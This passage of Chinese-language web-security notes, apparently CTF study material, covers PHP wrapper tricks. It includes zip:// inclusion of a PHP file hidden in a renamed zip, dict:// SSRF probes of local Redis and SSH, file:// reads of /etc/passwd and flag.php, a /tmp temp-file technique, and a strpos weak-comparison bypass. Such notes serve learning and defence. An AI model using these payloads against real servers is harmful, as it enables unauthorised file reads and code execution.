 ## zip://

上述 phar:// 的方法也可以使用 zip://

然后吧1.php文件压缩成zip，再把zip的后缀改为png，上传上去，并且可以获得上传上去的png的地址。

1.zip文件内仅有1.php这个文件

```powershell
/php?file=zip://1.png%231.php  

// 也可以尝试不改名为png，直接使用zip上传测试一下
/php?file=zip://1.zip%231.php
```

## dict://

```powershell
# 查看 redis 中的 info 数据
/index.php?url=dict://127.0.0.1:6379/info
# 查看 ssh 的 banner
/index.php?url=dict://127.0.0.1:ssh端口/info
```

## file://

```powershell
/ssrf.php?url=file:///etc/passwd

// 利用 ﬁle://localhost 来读取本地文件
/index.php?url=file://localhost/var/www/html/flag.php

## 文件上传漏洞
 
正常的文件上传流程是这样的，首先接收 POST 的文件，在 `tmp` 目录下生成临时文件，文件名是 `php[A-Za-z0-9]{6}`，在 php 处理后删除临时文件，虽然没有文件上传，但是只要文件上传开启了就一定会创建临时文件，在这中途如果 php 意外退出则临时文件不会被删除，造成 `/tmp` 目录下可以留下任何内容。 内容构造好后，单纯爆破  `/tmp/phpxxxxxx`  文件名是不太现实但是也可行的。
 
通过文件包含，让其包含本身，造成无限循环后发出 SIGSEGV 信号，可以导致 php 意外退出。


## 一些函数

### stripos/strpos

stripos() 函数返回字符串在另一个字符串中第一次出现的位置，如果没有找到该字符串，则返回 false。该函数对大小写不敏感，strpos() 函数是大小写敏感的。但是在返回值为0的情况下，弱类型比较下 0 == false

​```php
$a = 'a';
if(stripos($r, 'a') == false) {
       // 0 是 $r存在字符串 'a'，但是由于0和false是相等的，所以就执行了这里
}

if(stripos($r, 'a') === false) {
     // 这种情况下，$r 中必须不包含 'a'，才会执行这里
}

if(strpos([], "a") !==false) {
    // strpos()找的是字符串，那么传一个数组给它，strpos()出错返回null，null !== false
}
```
